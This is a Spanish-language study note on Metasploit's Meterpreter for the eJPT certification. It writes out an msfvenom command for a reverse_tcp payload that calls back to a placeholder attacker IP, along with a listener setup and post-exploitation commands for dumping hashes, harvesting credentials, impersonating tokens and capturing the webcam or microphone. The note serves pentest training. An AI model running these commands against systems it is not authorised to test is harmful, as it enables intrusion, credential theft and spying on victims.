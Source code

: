 # Fundamentos de Meterpreter

## ¿Qué es Meterpreter?

**Meterpreter** es un payload avanzado utilizado dentro del framework de **Metasploit**.  
Proporciona una **shell interactiva** en la máquina víctima con capacidades avanzadas para post-explotación.

Se ejecuta en memoria (no toca disco), lo que lo hace más sigiloso frente a algunos antivirus.

---

## Características principales

- No crea un nuevo proceso (inyección en procesos existentes).
- Encriptado por defecto para evadir detección.
- Permite cargar módulos adicionales (`kiwi`, `incognito`, etc.).
- Compatible con comandos de post-explotación.

---

## ¿Cómo se obtiene una sesión Meterpreter?

1. A través de un **exploit exitoso** en `msfconsole` que lanza un payload tipo `meterpreter`.
2. Usando un ejecutable malicioso creado con `msfvenom`.
3. Aprovechando vectores como SMB, HTTP, RDP, etc.

---

## Tipos de payloads Meterpreter

```bash
msfvenom --list payloads | grep meterpreter
```

Algunos comunes:

- `windows/meterpreter/reverse_tcp`
- `windows/meterpreter/bind_tcp`
- `linux/x86/meterpreter/reverse_tcp`

---

## Ejemplo práctico de uso

### 1. Crear el payload

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<tu_IP> LPORT=<tu_puerto> -f exe > payload.exe
```

### 2. Listener en Metasploit

```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <tu_IP>
set LPORT <tu_puerto>
exploit
```

Cuando la víctima ejecuta el payload, se abre una sesión:

```bash
meterpreter >
```

---

## Comandos útiles de Meterpreter

| Comando             | Descripción                                       |
|---------------------|---------------------------------------------------|
| `sysinfo`           | Muestra información del sistema víctima           |
| `getuid`            | Muestra el usuario actual                         |
| `shell`             | Abre una shell de Windows/Linux en la víctima     |
| `upload`/`download` | Subir o bajar archivos                            |
| `ps`                | Lista procesos                                    |
| `migrate PID`       | Migra a otro proceso                              |
| `hashdump`          | Vuelca los hashes del sistema Windows             |
| `background`        | Envía la sesión a segundo plano                   |
| `sessions -i <id>`  | Recupera una sesión activa                        |

---

## Funcionalidades avanzadas (según privilegios)

- `load incognito`: Suplantación de tokens.
- `load kiwi`: Equivalente a Mimikatz (credenciales en memoria).
- `screenshare`, `screenshot`: Captura remota.
- `record_mic`, `webcam_snap`: Interacción con hardware.

---

## ¿Por qué es importante para el eJPT?

En el eJPT, Meterpreter puede ser usado para:

- Post-explotación básica (ver archivos, identificar usuarios).
- Enumerar la red interna.
- Subir herramientas auxiliares.
- Escalada de privilegios en escenarios controlados.

**No se espera que domines todos los módulos avanzados de Meterpreter**, pero sí debes:

- Saber crear un payload.
- Saber manejar una sesión.
- Saber extraer información útil de la víctima.

---

## Buenas prácticas

- Siempre usar `background` y `sessions -i` para manejar múltiples sesiones.
- Verifica si tienes privilegios elevados (`getuid`, `getprivs`).
- Ten cuidado al usar `shell` directamente: puede ser menos estable que los comandos nativos de Meterpreter.
